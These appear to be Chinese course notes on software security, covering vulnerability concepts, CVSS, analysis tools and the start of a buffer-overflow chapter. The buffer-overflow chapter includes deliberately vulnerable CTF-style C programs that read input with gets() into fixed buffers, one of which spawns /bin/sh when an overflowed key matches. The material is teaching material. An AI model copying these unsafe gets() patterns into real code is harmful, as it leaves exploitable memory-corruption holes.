- [x] 软件安全问题的根源就是我们所依赖的 ***软件存在太多的安全弱点*** ，而不断增加的 **软件复杂性和可扩展性** 更是火上浇油般地助长了这种情形

- [x] 解决软件安全问题的根本方法就是改善 **我们建造软件的方式，用工程化的方法来实施软件安全** ，以建造健壮的软件，使其在遭受恶意攻击时依然能够安全可靠和正确运行

##### 任何软件都是不安全的

- 测试只能减少软件安全问题的发生，但是不能完全解决安全问题

- 业界公认一个事实： **几乎所有的软件都是带着安全隐患投入运行**

- 从技术方面讲，软件的安全问题是普遍存在的。黑客总可以采取种种手段入侵，让用户防不胜防

##### 软件不安全性的表现

- [x] 软件在运行过程中不稳定，出现异常现象、得不到正常结果或者在特殊情况下由于一些原因造成系统崩溃
  - 由于 `异常` 处理不当，软件运行期间遇到突发问题，处理异常之后无法释放资源，导致这些资源被锁定无法使用
  - 由于 `线程` 处理不当，软件运行中得不到正常结果
  - 由于 `网络连接` 处理不当，网络软件运行过程中，内存消耗越来越大，系统越来越慢，最后崩溃
  - 由于编程没有进行优化，程序运行 `消耗资源过大`

- [x] 黑客利用各种方式达到窃取信息、破坏系统的目的
  - 黑客通过一些手段获取数据库中的 **明文密码**
  - 黑客利用软件的 **缓冲区溢出** ，运行敏感的函数
  - 黑客利用软件对 **数据的校验不全面** ，给用户发送虚假信息
  - 黑客对用户进行 **拒绝服务攻击**

##### 软件不安全的原因

- [x] 从 `软件开发者` 的角度
  - 软件生产没有严格遵守 **软件工程流程**
  - 编程人员没有采用科学的 **编程方法**
  - **测试不到位** (不过有时是无法到位)

- [x] 从 `软件工程客观` 角度
  - 软件 **复杂性** 和工程进度的平衡
  - 安全问题的 **不可预见性**
  - 由于软件 **需求的变动**
  - 软件 **组件之间的交互** 的不可预见性

## 软件安全相关概念

### 软件工程

- 软件安全不是孤立的学科，与软件工程关系最密切

- `软件工程` 是一门研究如何使用 **系统化、规范化、数量化** 等工程原则和方法去进行软件的 **开发、运行和维护** 的学科

- 软件工程采用工程的概念、原理、技术和方来开发维护软件 ，**把经过时间考验而证明正确的管理方法和最先进的软件开发技术结合起来** ，应用到软件开发和维护过程中，来解决软件危机问题，生产出 **无故障的、及时交付的、在预算之内的和满足用户需求** 的软件

- $软件工程 \leftrightarrow 工厂流水线$

#### 软件工程的内容

- 和任何工程方法一样，软件工程以 **质量** 为关注焦点，全面质量管理及相关的现代管理理念为软件工程奠定强有力的根基

- `软件工程的三要素`
  - **过程**
  - **方法**
  - **工具**

<p align="center">
  </img>
</p>

- 软件工程的基础是过程层。软件工程 `过程` **是为获得软件产品，在软件工具支持下由软件人员完成的一系列软件工程活动**
  - 过程层将方法和工具结合在一起

- `方法` 层提供了软件开发的各种方法
  - 项目计划与估算方法、需求分析和设计方法、编程、测试方法及运维方法

- `工具` 层为软件工程方法提供了自动的或半自动的软件支撑环境
  - 计算机辅助软件工程(CASE)，UML

#### 软件工程的学科内容

- 软件工程是一门涉及内容广泛的学科(一级学科)，所依据的基础理论极为丰富，包括数学、计算机科学、经济学、工程学、管理学和心理学等其他学科，其研究的内容包括软件开发技术和软件管理技术

<p align="center">
  </img>
</p>

### 软件危机

- `软件危机` 是指落后的软件生产方式无法满足迅速增长的计算机软件需求，从而导致 **软件开发与维护过程中出现一系列严重问题的现象**

- `1.软件开发进度难以预测`
  - 拖延工期几个月甚至几年的现象并不罕见，这种现象降低了软件开发组织的信誉

- `2.软件开发成本难以控制`
  - 投资一再追加，令人难于置信。往往是实际成本比预算成本高出一个数量级
  - 而为了赶进度和节约成本所采取的一些 **权宜之计又往往损害了软件产品的质量** ，从而不可避免地会引起用户的不满

- `3.用户对产品功能难以满足`
  - 开发人员和用户之间很难沟通、矛盾很难统一。往往是 **软件开发人员不能真正了解用户的需求，而用户又不了解计算机求解问题的模式和能力** ，双方无法用共同熟悉的语言进行交流和描述
  - 在双方互不充分了解的情况下，就仓促上阵设计系统、匆忙着手编写程序，这种"闭门造车"的开发方式必然导致最终的产品不符合用户的实际需要

- `4.软件产品质量无法保证`
  - 系统中的错误难以消除。软件是逻辑产品，质量问题很难以统一的标准度量，因而造成质量控制困难。软件产品并不是没有错误，而是盲目检测 **很难发现错误** ，而隐藏下来的错误往往是造成重大事故的隐患

- `5.软件产品难以维护`
  - 软件产品本质上是开发人员的 **代码化的逻辑思维活动，他人难以替代** 。除非是开发者本人，否则很难及时检测、排除系统故障。为使系统适应新的硬件环境，或根据用户的需要在原系统中增加一些新的功能，又有可能增加系统中的错误

- `6.软件缺少适当的文档资料`
  - 文档资料是软件必不可少的重要组成部分。实际上，软件的文档资料是开发组织和用户的之间权利和义务的合同书，是统管理者、总体设计者向开发人员下达的任务书，是系统维护人员的技术指导手册，是用户的操作说明书
  - 缺乏必要的文档资料或者文档资料不合格，将给软件开发和维护带来许多严重的困难和问题

### 软件保证(Software Assurance)

- `软件保证` 是计划和系统行动集合来确保软件过程和产品符合需求、标准和规程

- 软件保证要达到如下两个 `目标`
  - `可信性` (trustworthiness)，即没有可利用的弱点存在，无论是来自敌意的还是无意的企图
  - `执行可以预见` (predictable execution) ，可证明的信任软件在执行的时候是依照所希望的那样进行工作。这些行为包括：需求分析、测试、验证，以及报告

- 软件保证关系到两个软件属性
  - `质量` (quality) , 即软件保证是 `软件质量保障` 的简短形式
  - `可靠性` (reliability) ,特别是其中最重要的内容--安全(safety)

### 软件质量

- 软件质量，是贯穿软件生存期的一个极为重要的问题，是软件开发过程中所使用的各种开发技术和验证方法的最终体现

- `软件质量` 的定义：满足软件的各项精确定义的 **功能和性能需求** ，遵守文档化的 **开发标准** ，需要相应地给出或设计一些质量特性及其组合。如果这些质量特性及其组合都能在产品中得到满足，则这个软件产品质量就是高的

- 软件质量反映了以下三方面的问题：
  - `软件需求是度量软件质量的基础` ，不符合需求的软件就不具备质量
  - 在各种标准中定义了一些 `开发准则` ，用来指导软件人员用工程化的方法来开发软件。如果不遵守这些开发准则，软件质量就得不到保证
  - 往往会有一些 `隐含的需求` 没有明确地提出来，例如，软件应具备良好的 **可维护性** ，如果软件只满足那些精确定义了的需求而没有满足这些隐含的需求，软件质量也不能保证

#### 软件质量保证

- `软件质量保证` (Software Quality Assurance)
  - 通过对软件产品有计划地进行评审和审计来验证软件是否合乎标准的系统工程

- SQA的活动原则
  - 确保SQA要自始至终有计划地进行
  - 审查软件产品是否遵守适用的标准、规程和要求，并得到客观验证
  - SQA和结果要保证全员参与，沟通顺畅
  - 逐级解决不符合问题

#### 软件质量的属性

- 可靠性(reliability)：产品在 `规定的条件下和规定的时间` 内， `完成规定功能` 的能力
- 软件可靠性(software reliability) ：在规定环节下及时间内，软件 **不引起系统失效** 的概率
- 可维护性(maintainability)：产品在规定的条件下和时间内，按规定的程序和方法进行 **维修、保持或恢复** 到规定的状态的能力
- 可用性(available)：产品在 `任一随机时刻` 需要和开始执行任务时，处于可工作或可使用状态的程度
- $\color{red}{安全性(safety)：将伤害或损坏的风险限制在可接受水平内的能力}$
- 保密性(confidentiality)：避免未经许可泄露信息的能力
- 完整性(integrity)：避免不适当地更改的能力

#### 软件质量的特性

- 软件质量特性反映了软件的本质。讨论一个软件的质量，问题最终要归结到定义软件的质量特性(用软件质量模型来描述)

- 已有软件质量模型的共同特点是把软件质量特性定义成 `分层模型`

- 在这种分层模型中，最基本的叫做 `基本质量特性` ，它可以由一些子质量特性定义和度量。二次特性在必要时又可由它的一些子质量特性定义和度量

- 按照ISO/TC97/SC7/WG3/1985-1-30/N382， `软件质量度量模型` 由三层组成

##### 软件质量度量模型

- `高层` ：软件质量 **需求评价** 准则(SQRC)

- `中层`：软件质量 **设计评价** 准则(SQDC)

- `低层`：软件质量 **设计度量** 准则(SQMC)

- 对高层和中层建立国际标准，低层由使用单位自行制定

- ISO9126质量特性国际标准
  - 质量特性(6个)：功能性、可取性、可维护性、效率、可使用性、可移植性
  - 质量子特性(21个)
  - 度量

<p align="center">
  </img>
</p>

### 软件可靠性

- 1983年，美国IEEE计算机学会给出的软件可靠性的定义:
  - 1) 在规定的 `条件` 下，在规定的 `时间` 内，软件 **不引起系统失效的概率**
    2) 2) 在规定的时间周期内，在所述条件下程序 **执行所要求的功能** 的能力

- `软件可靠性工程` (Software Reliability Engineering)是一门以减少软件系统在运行中不满足用户要求的可能性为目标的应用科学，其研究内容包括:
  - 1) 软件可靠性的 **分析** : 确定指标、设计开发过程、进行预计、分析失效严重性等
  - 2) 软件可靠性的 **测量** : 用失效数据和 **软件可靠性模型** 估计(或测量)软件运行的可靠性
  - 3) 软件可靠性的 **管理** : 利用可靠性测量和其他信息来控制和改进开发过程，并对采购或重用的软件进行管理
  - 4) 软件可靠性开发过程的 **改进** : 确定影响软件可靠性的因素，改进费用效益关系

- `软件可靠性模型` 是指 **为预计或估算软件的可靠性所建立的结构和数学模型** 。建立可靠性模型是为了将复杂系统的可靠性逐级分解为简单系统的可靠性，以便定量预计、分配、估算和评价复杂系统的可靠性

- 一般软件可靠性模型分两大类
  - 可靠性 `结构` 模型： **依据系统结构逻辑关系** ，对系统的可靠性特征及其发展变化规律做出可靠性评价。此模型既可用软件可靠性综合评价，又可用于软件可靠性分解
  - 可靠性 `预计` 模型：用来 **描述软件失效与软件缺陷的关系** ，借助这类模型，可以对软件的可靠性特征作出定量的预计和评价

### 软件容错

- `软件容错性` 是指软件运行时，能对 **非正常因素** 引起的运行错误给出适当处理或信息提示，使软件运行正常结束

- 容错技术包括以下几个主要方面
  - 故障检测技术
  - 故障恢复技术
  - 破坏估计
  - 故障隔离技术
  - 继续服务

### 可信软件

- “ `可信性` ”是在 **正确性、可靠性、安全性、时效性、完整性、可用性、可预测性、生存性及可控性** 等众多概念的基础上发展起来的一个新概念，是客观对象的诸多属性在人民心目中的一个综合反映

- 一般认为，“可信”是指一个实体在实现既定目标的过程中，行为及结果可以预期，它强调目标与实现相符，强调 **行为和结果的可预测性和可控制性**

- `软件的“可信”` 是 **指软件系统的动态行为及其结果总是符合人们的预期，在受到干扰时仍能提供连续的服务** 。这里的“干扰”包括操作错误、环境影响和外部攻击等

### 软件定义安全(Software Defined Security)

- `软件定义安全` 是从 **软件定义网络(Software DefinedNetwork)** 引申而来的

- `SDN` ：把当前IP网络互联节点中决定报文如何转发的 **复杂控制逻辑** 从交换机/路由器等设备中 **分离** 出来，以便通过软件编程实现硬件对数据转发规则的控制，最终达到对流量进行自由操控的目的

- `SDS` ：将物理及虚拟的网络安全设备预期接入模式、部署方式和实现功能进行 **解耦** ，底层抽象为 `安全资源池` 里的资源，顶层统一 **通过软件编程的方式进行智能化、自动化的业务编排和管理** ，以完成相应的安全功能，从而实现一种灵活的安全防护

- SDS可以分解为以下三个方面：
  - `软件定义流量` ：通过软件编程的方式来实现网络流量的 **细粒度定义及转发控制管理** ，通过将目标网络流量转发到安全设备上，实现安全设备的逻辑部署和使用
  - `软件定义资源` ：通过管理中心 **对安全资源进行注册、池化管理、弹性分配** ，在虚拟计算环境下，管理中心还要支持虚拟安全设备模板的分发和设备的创建
  - `软件定义威胁模型` ：对网络流量、网络行为和安全事件等信息进行自动化的采集、分析和挖掘，实现 **对未知的威胁甚至是一些高级安全威胁的实时分析和建模** ，之后用建模结果指导流量定义，实现一种动态、闭环的安全防护

- 软件安全关注的是实现软件产品安全性的全面质量保证的方法，而SDS是实现分布式系统安全可控的一种有效方法

## 软件安全相关工具

### 软件安全工具介绍

- [x] 反汇编器
  - ·IDA Pro· 、W32Dasm

- [x] 反编译器
  - Hex Ray、baksmali

- [x]调试器
  - `GDB` 、 `OllyDBG` 、WinDBG、SoftICE

- [x] 系统监控
  - IceSword(PJF)、 DarkSpy (CardMagic)
  - Process Explorer、Process Monitor(Filemon & Regmon)
  - TCPView、Portmon

- [x] 修补和转储
  - EditPlus、UltraEdit、 Hex Workshop、Dumpbin、PEview

### 软件安全分析基础工具

- [x] 静态分析工具
  - IDA Pro：商业交互式反汇编工具。反汇编、反编译、导入表与导出表解析、函数符号表解析、查找、插件
  - Udis86：开源反汇编库、udcli反汇编工具
  - Capstone：开源、轻量级、多平台、多架构反汇编框架
  - PEiD：Windows平台下常用的PE文件格式分析工具。提取标准可执行文件的文件结构、检测程序加壳
  - 010Editor：商业编辑器，文件编辑、范本分析、脚本分析、磁盘编辑、进程内存编辑

- [x] 动态分析工具
  - Process Monitor：Windows平台下的进程监控工具。进程监控、文件监控、注册表监控、网络监控
  - Wireshark：开源的网络数据包采集和分析软件。流量采集、协议分析
  - GDB：UNIX及UNIX-like平台下的调试工具
  - OllyDbg：Windows平台反汇编动态调试追踪工具，只支持Ring3级别的用户态程序。调试、Trace功能
  - WinDbg：Windows平台动态调试工具。符号功能、调试功能、丰富命令、内核调试
  - `Pin` ： `二进制代码插桩分析框架` 。4种粒度的代码插桩模式：INS级别(指令)、TRACE级别(跳转)、RTN级别(符号表)、IMG级别(监控)；具有良好的用户扩展接口

- [x] 虚拟化辅助分析平台
  - VMWare Workstation：商业的桌面虚拟化软件。虚拟机管理、数据交互、快照、内核调试(结合WinDbg)
  - VirtualBox：免费开源的桌面虚拟化软件
  - QEMU：开源的虚拟化平台，通过自身的指令翻译模块模拟程序的执行
  - Xen：开源虚拟化平台
  - Docker：容器

# 第二章 缓冲区溢出漏洞

## 软件漏洞概述

### 信息安全漏洞

- [x] 关于信息安全漏洞的定义或者解释的角度虽各不相同，但对 <span style="color:red;">漏洞</span> 的认识却有以下 <span style="color:red;">三个共同特点</span> ：
  - 漏洞是信息系统 <span style="color:blue;">自身</span> 具有的 <span style="color:blue;">弱点或者缺陷</span> 
  - 漏洞 <span style="color:blue;">存在环境</span> 通常是 <span style="color:blue;">特定</span> 的
  - 漏洞具有 <span style="color:blue;">可利用性</span> ，若攻击者利用了这些漏洞将会给信息系统安全带来严重威胁和经济损失

### 软件漏洞

- [x] <span style="color:red;">软件(安全)漏洞</span> 是信息系统安全漏洞的一个重要方面

- [x] <span style="color:red;">基本认识</span> ：
  - 软件漏洞通常被认为是软件生命周期中与安全相关的 <span style="color:red;">设计错误</span> 、 <span style="color:red;">编码缺陷</span> 及 <span style="color:red;">运行故障</span> 等
  - 本课程并不对软件漏洞/脆弱点、软件缺陷以及软件错误等概念严格区分
  - 软件漏洞一方面会导致 <span style="color:red;">有害的输出或行为</span> ；另一方面漏洞也会 <span style="color:red;">被攻击者所利用来攻击系统</span> 

- [x] <span style="color:red;">基于软件生命周期的认识</span> ：
  - 软件系统或产品在 <span style="color:blue;">设计、实现、配置、运行</span> 等过程中，由操作实体有意或无意产生的缺陷、瑕疵或错误，它们 <span style="color:blue;">以不同形式存在于信息系统的各个层次和环节之中，且随着信息系统的变化而改变</span> 
  - 漏洞是 <span style="color:red;">贯穿软件生命周期各环节</span> 的。在时间维度上，漏洞都会经历 <span style="color:blue;">产生、发现、公开、消亡</span> 等过程

<p align="center">
  </img>
</p>

<!-- tabs:start -->

#### **<span style="color: red;">0-day漏洞</span>**

- [x] 是指已经被发现(有可能未被公开)但官方还 <span style="color:blue;">没有相关补丁的漏洞</span>

#### **<span style="color: red;">1-day漏洞</span>**

- [x] 是指厂商发布安全补丁之后但 <span style="color:blue;">大部分用户还未打补丁</span> 时的漏洞，此类漏洞依
然具有可利用性

#### **<span style="color: red;">历史漏洞</span>**

- [x] 是指距离补丁发布日期已久且可利用性不高的漏洞。由于各方定义不一样，故用虚线表示

<!-- tabs:end -->

### 软件漏洞的特点

<!-- tabs:start -->

#### **持久性**

- 旧漏洞不断消失，新漏洞不断出现

#### **时效性**

- 超过一定时间，漏洞威胁逐渐减少

#### **广泛性**

- 会影响很大范围的软件和硬件设备

#### **具体性**

- 存在于具体的环境或条件中

#### **可利用性**

- 一旦被攻击者利用就会给信息系统带来威胁和损失
 
#### **隐蔽性**

- 往往需要通过特殊的漏洞分析手段才能发现

<!-- tabs:end -->

### 软件漏洞成因分析

- <span style="color: blue;">计算机系统结构</span> 决定了 <span style="color: red;">漏洞的必然性</span>
- 软件趋向大型化，第三方扩展增多，供应链风险加大
- 新技术、新应用产生之初即缺乏安全性考虑
- 软件使用场景更具威胁
- 软件安全开发重视不够，开发者缺乏安全知识

<p align="center">
  </img>
</p>

### 缺陷密度

- [x] 在软件安全性分析中可以使用 <span style="color: red;">缺陷密度</span> ( <span style="color: blue;">即每千行代码中存在的软件缺陷数量</span> )来衡量软件的安全性

- [x] 以下各类软件代码缺陷的统计数据：
  - 普通软件开发公司开发的软件的缺陷密度为4～40个缺陷/KLOC
  - 高水平的软件公司开发的软件的缺陷密度为2～4个缺陷/KLOC
  - 美国NASA的软件缺陷密度为0.1个缺陷/KLOC

> - 注：KLOC-千行代码(thousands of lines of code)

### 软件漏洞为什么要管理

- [x] 《网络安全法》
  - 第二十六条 开展网络安全认证、检测、风险评估等活动，向社会发布系统漏洞、计算机病毒、网络攻击、网络侵入等网络安全信息，应当遵守国家有关规定。
  - 第六十二条 违反本法第二十六条规定，开展网络安全认证、检测、风险评估等活动，或者向社会发布系统漏洞、计算机病毒、网络攻击、网络侵入等网络安全信息的，由有关主管部门责令改正，给予警告；拒不改正或者情节严重的，处一万元以上十万元以下罚款，并可以由有关主管部门责令暂停相关业务、停业整顿、关闭网站、吊销相关业务许可证或者吊销营业执照，对直接负责的主管人员和其他直接责任人员处五千元以上五万元以下罚款。

- [x] 案例：白帽黑客(帮助厂商发现漏洞)的罪与罚
  - 2016年乌云网关闭、漏洞盒子“暂停”
  - “白帽”合法性、漏洞公布的合规性

- [x] 案例：阿里巴巴月饼门
  - 阿里巴巴4名工程师在阿里内部的月饼销售过程中，利用系统漏洞多刷了124盒月饼，被开除

- [x] 为什么要对漏洞进行管理？  
  - 漏洞是一种“武器”
  - 让白帽的漏洞发现有章有法
  - 漏洞管控势在必行
    - 漏洞的发现和修复就像一场此起彼伏的战争，永无完结之时
    - 漏洞威胁的不仅仅是个人信息和财产、企业数据和信誉，也关系到国家重要信息系统和基础设施的安全
    - 漏洞的发现和报告机制、漏洞的交易、漏洞的利用都应该有着法律的界限，相应的管理也需要与时俱进
    - 通过建立完善的国家漏洞管理体系，将漏洞资源纳入国家管控机制

#### 漏洞信息平台

<p align="center">
  </img>
</p>

### 软件漏洞分类

<!-- tabs:start -->

#### **基于漏洞成因的分类**

- `内存破坏` 类：越界访问、缓冲区溢出等
- `逻辑错误` 类：涉及安全检查的实现逻辑上存在的问题，导致设计的安全机制被绕过
- `输入验证` 类、 `设计错误` 类、 `配置错误` 类等

#### **基于漏洞利用位置的分类**

- `本地漏洞` 。即 `需要` 操作系统级的 `有效帐号登录到本地` 才能利用的漏洞，主要构成为 `权限提升类` 漏洞，即把自身的执行权限从普通用户级别提升到管理员级别
- `远程漏洞` 。即无需系统级的帐号验证即可 `通过网络` 访问目标进行利用的漏洞

#### **基于威胁类型的分类**

- `获取控制` 。即可以导致劫持程序执行流程， <span style="color: blue;">转向执行攻击者指定的任意指令或命令</span> ，控制应用系统或操作系统。威胁最大，同时影响系统的保密性、完整性，甚至在需要的时候可以影响可用性。主要来源：内存破坏类
- `获取信息` 。即可以导致劫持程序 <span style="color: blue;">访问预期外的资源</span> 并泄露给攻击者，影响系统的保密性。主要来源：输入验证类、配置错误类漏洞
- `拒绝服务`。即可以导致目标应用或系统 <span style="color: blue;">暂时或永远性地失去响应正常服务的能力</span> ，影响系统的可用性。主要来源：内存破坏类、意外处理错误类漏洞

<!-- tabs:end -->

### 软件漏洞分级

- [x] 对漏洞进行分级有助于人们对数目众多的安全漏洞给予不同程度的关注并采取不同级别的措施

<!-- tabs:start -->

#### **按照漏洞严重等级进行分级**

<p align="center">
  </img>
</p>

#### **利用通用漏洞评分系统(CVSS)进行分级**

- [x] 依据对 <span style="color: blue;">3种度量评价标准来对一个已知的安全 <span style="color: red;">漏洞危害程度</span> 进行打分
  - <span style="color: blue;">基础得分(Base Score)</span> ：根据漏洞的固有特征反映漏洞的严重程度，不受时间因素影响，并 <span style="color: blue;">假定在不同部署环境中产生合理的最坏情况</span> 的影响；
  - <span style="color: blue;">时间得分(Temporal Score)</span> ：评价漏洞被利用的 <span style="color: blue;">时间窗</span> 的风险大小，比如官方发布了 <span style="color: blue;">补丁</span> 则会降低评估分数；
  - <span style="color: blue;">环境得分(Environment Score)：需要在 <span style="color: blue;">特定环境</span> 下评估。通常由最终用户根据自己的使用环境给出。

- [x] CVSS指标
  - CVSS 由三个衡量指标组组成： <span style="color: blue;">基础评价</span> 、 <span style="color: blue;">生命周期评价</span> 和 <span style="color: blue;">环境评价</span>

<p align="center">
  </img>
</p>

<!-- tabs:start -->

##### **基础评价**

- `基础评价` 指标组表示漏洞的固有特征，这些特征在一段时间内和用户环境中保持不变。它由两组指标组成：可利用度评价和影响指标。
  - `可利用度评价` 反映了利用漏洞的难易程度和技术手段。也就是说，它们代表了脆弱的对象的特征，我们将其正式称为 <kbd style="color:green;">脆弱组件</kbd>
  - 影响指标反映了成功利用的直接后果，并代表了遭受影响的事物的后果，我们正式将其称为 <kbd style="color:green;">受影响组件</kbd>
  - 虽然脆弱组件通常是软件应用程序、模块、驱动程序等(或可能是硬件设备)，但受影响组件可能是软件应用程序、硬件设备或网络资源。这种衡量漏洞影响的潜力，而不是脆弱组件，是CVSS v3.0 引入的一个关键功能

##### **生命周期评价**

- `生命周期评价` 衡量指标组反映了漏洞的特征，这些特征可能会随时间而变化，但不会随用户环境而变化。例如 <span style="color: blue;">简单易用的漏洞利用工具包</span> 的存在将提高CVSS分值，而创建 <span style="color: blue;">官方补丁</span> 则会降低该分值

##### **环境衡量**

- `环境衡量` 指标组表示与特定用户环境相关且唯一的漏洞特征。考虑因素包括 <span style="color: blue;">是否存在安全控制</span> ，这些控制可以减轻成功攻击的部分或全部后果，以及脆弱的系统在技术基础架构中的相对重要性

<!-- tabs:end -->

<!-- tabs:end -->

### 软件漏洞管理国际标准

<p align="center">
  </img>
</p>

### 软件漏洞管理国内标准

- [x] 漏洞分类分级指南
  - 《信息安全技术 网络安全漏洞分类分级指南》(GB/T 30279—2020)

- [x] 漏洞标识与描述规范
  - 《信息安全技术 网络安全漏洞标识与描述规范》(GB/T 28458—2020)

- [x] 漏洞管理规范
  - 《信息安全技术 网络安全漏洞管理规范》(GB/T 30276—2020)

- [x] 网络安全漏洞分类分级指南(GB/T 30279—2020)

## 内存结构与缓冲区溢出

### 几个ctf中的pwn例子

#### 最简单的一个pwn

```C
#include <stdio.h>

int main(int argc, char** argv){
  int modified;
  char buffer[10];
  modified = 0;
  gets(buffer);
  if (modified != 0){
    printf("Congratulations, you pwned it.\n");
  }
  else{
    printf("Please try again.\n");
  }
  return 0;
}
```

> - 假设上述代码文件名为 `pwn1.c` ，则进行编译结果如下：

```term
$ gcc -g -o pwn1 pwn1.c
pwn1.c:17:2: warning: no newline at end of file
/tmp/ccEHWCOv.o(.text+0x1e): In function `main`:
/home/example/pwn1.c:7: warning : the `gets` function is dangerous and should not be used.
```

> - 此时就会有gcc的警告表示gets不安全，那么此时进行两个不同输入

```term
$ ./pwn1
## $ 1111
Please try again.
```

```term
$ ./pwn1
## $ 11111111111111
Congratulations, you pwned it.
Segmentation fault
```

> - 很明显能看出由于 `buffer` 大小程序本意上应该是10，但是程序分配地址空间时，是连续分配的，所以当程序分配好10个大小的 `buffer` 以后，其就会分配 `modified` 变量地址，如果在 `gets` 时一次输入超过十个字符，则后续字符会分配给 `modified` 变量导致其内容更改，此时其值不为0，同时触发段错误([`Segmentation fault`](https://zh.wikipedia.org/wiki/%E8%A8%98%E6%86%B6%E9%AB%94%E5%8D%80%E6%AE%B5%E9%8C%AF%E8%AA%A4))

#### 另一个pwn(改造自pwnable.kr-bof)


```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
  char overflowme[32];
  printf("overflowme");
  gets(overflowme);
  if (key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}

int main(int argc, char** argv){
  func(0xdeadbeef);
  return 0;
}
```

> - 此处同上(overflowme导致的缓冲区溢出)。

##### 最简单pwn之改造

```C
#include <stdio.h>

int gets_fun(){
  char buffer[10];
  gets(buffer);
  return 0;
}

int main(int argc, char** argv){
  int modified;
  modified = 0;
  gets_fun();
  if (modified != 0){
    printf("Congratulations, you pwned it.\n");
  }
  else{
    printf("Please try again.\n");
  }
  return 0;
}
```

##### 最简单pwn之再改造

```C
#include <stdio.h>

int gets_fun(){
  char buffer[10];
  gets(buffer);
  return 0;
}

int main(int argc, char** argv){
  int modified;
  modified = 0;
  gets_fun();
  modified = 0;
  if (modified != 0){
    printf("Congratulations, you pwned it.\n");
  }
  else{
    printf("Please try again.\n");
  }
  return 0;
}
```

### 缓冲区溢出简介

#### 缓冲区溢出历史

- http://en.wikipedia.org/wiki/Buffer_overflow
- 最早的攻击：1988年UNIX下的Morris worm，利用的是fingerd的缓冲区溢出
- 1996年，Aleph One在第49期Phrack杂志上发表《Smashing The Stack for Fun and Profit》
- 1999年，Matt Conover(16岁)，heap/bss overflow
- 2000年，format string vulnerability
- 2002年，Integer overflow
- 其他的攻击手法(others)
  - 利用ELF文件格式的特性如：覆盖.plt(过程连接表)、.dtor(析构函数指针)、.got(全局偏移表); return-to-libc(返回库函数)等的方式进行攻击

#### 缓冲区溢出攻击的危害

- 缓冲区溢出漏洞大量存在于各种软件中
- 利用缓冲区溢出的攻击，会导致系统崩溃、敏感信息泄漏、获得系统特权等严重后果
- CWE Top 25 Most Dangerous Software Weaknesses
  - http://cwe.mitre.org/top25/index.html

### Linux内存结构

- [x] Linux及其它几乎所有Intel x86系统、Solaris, etc
- [x] 分页式存储管理
- [x] 平面内存结构，4GB或更大逻辑地址空间
- [x] 栈从下往上生长
- [x] C语言不进行边界检查

#### 进程内存布局

<p align="center">
  </img>
</p>

> - 一般静态存储值都是在栈上分配地址，动态分配的地址都在堆上。
> - 未初始化的数据一般放在BSS段，而数据段一般放初始化的全局变量，比如static变量，其一般在声明时直接赋值。

```
#include <stdio.h>

int x = 100;
int main(){
  // data stored on stack
  int a = 2;
  float b = 2.5;
  static int y;

  // allocate memory on heap
  int *ptr = (int *)malloc(2 * sizeof(int));

  // values 5 and 6 stored on heap
  ptr[0] = 5;
  ptr[1] = 6;

  // deallocate memory on heap
  free(ptr);

  return 1;
}
```

> - 上述代码所对应的栈结构如下所示。

<p align="center">
  </img>
</p>

#### 栈

- <span style="color: red;">栈 是一种 <span style="color: blue;">先进后出(First In Last Out)</span> 的 <span style="color: blue;">数据结构</span> 
  - 就像子弹壳装弹，一粒一粒压进去 span style="color: blue;">入栈</span> )；打出来的时候，最先压进去的最后弹出来( <span style="color: blue;">出栈</span> )
  - 如果进去顺序是123，出来顺序是321

- 相对于广义的栈而言， <span style="color: red;">栈帧</span> 是操作系统为进程中的 <span style="color: blue;">每个函数调用</span> 划分的一个空间，每个栈帧都是一个独立的栈结构，而 <span style="color: red;">系统栈</span> 则是这些函数调用栈帧的集合

- 系统栈由系统自动维护，用于实现高级语言中函数的调用

##### 函数的栈帧

- [x] 当函数被调用时，系统会为这个函数开辟一个新的栈帧，并把它压入栈区中，所以 <span style="color: blue;">正在运行的函数总是在系统栈区的栈顶</span> ( <span style="color: red;">当前栈帧</span> )。当函数返回时，系统会弹出该函数所对应的栈帧空间
- [x] 栈帧的 <span style="color: red;">生长方向是 <span style="color: blue;">从高地址向低地址增长</span> 的
- [x]  <span style="color: red;">ESP</span> ：扩展栈指针(Extended Stack Pointer)寄存器，其存放的指针指向 <span style="color: blue;">当前栈帧的 <span style="color: blue;">栈顶</span> 
- [x]  <span style="color: red;">EBP</span> ：扩展基址指针(Extended Base Pointer)寄存器，其存放的指针指向 <span style="color: blue;">当前栈帧的 <span style="color: blue;">栈底</span> 
- [x] 显然，ESP与EBP之间的空间即为 <span style="color: red;">当前栈帧空间</span> 

<p align="center">
  </img>
</p>

<!-- chat:start -->

<!-- title: 小Tips -->

#### **Tips**

如果 <span style="color: blue;">64位系统</span> ，则为 <span style="color: blue;">rsp、rbp</span> 

<!-- chat:end -->

- [x] 一个函数栈帧中主要包含如下信息：
  - 前栈帧的 <span style="color: red;">栈底</span> 位置(即 <span style="color: red;">前栈帧EBP</span> ) ，用于在函数调用结束后恢复主调函数的栈帧(前栈帧的栈顶可计算得到)
  - 该函数的 <span style="color:red;">局部变量</span> 
  - 函数调用的 <span style="color: red;">参数</span> 
  - 函数的 <span style="color: red;">返回地址RET</span> ，用于保存函数调用前指令的位置，以便函数返回时能恢复到调用前的代码区中继续执行指令

<!-- chat:start -->

<!-- title: 理解 -->

#### **Tips**

因为当前函数调用结束后，需要返回到调用该函数的地址(前栈帧)，同样的ESP和EBP也要移到前栈帧，而前栈帧的栈顶是可以计算得到的(当前函数的栈底)，即ESP的移动去向知道，但是EBP无法通过计算知道，因为不知道前栈帧的大小。所以在当前函数栈帧中需要记载前栈帧的EBP位置。

<!-- chat:end -->

##### 系统栈

- [x] 主函数原型：
  - <kbd style="color:green;">int main (int argc, char *argv[ ], char *envp[ ])</kbd>
  - 示例： <kbd style="color:red;">ls -l /usr/include</kbd>

<p align="center">
  </img>
</p>

<p align="center">
  </img>
</p>

<!-- chat:start -->

<!-- title: 理解 -->

#### **Tips**

调用 <kbd>main</kbd> 函数以后形成栈帧，其后面分别跟着其参数(<kbd>argc、argv、envp</kbd>)，而后两者其实为指针，指向对应第一个其对应的数组元素的存储地址，同时其对应的第一个数组元素也会指向一个以 <kbd>null</kbd> 结尾的字符串，这个字符串是执行程序的名称或路径，同时其是以 <kbd>null</kbd> 结尾是因为C语言一般字符串结尾以其作为判断。环境变量也是同理。

<!-- chat:end -->

```C
// 程序命名为main.c
#include <stdio.h>

int main(int argc, char *argv[ ]){
  if (argc == 2){
    printf("%s\n", agrv[1]);
  }
  else{
    printf("Error.\n");
  }
  return 0;
}
```

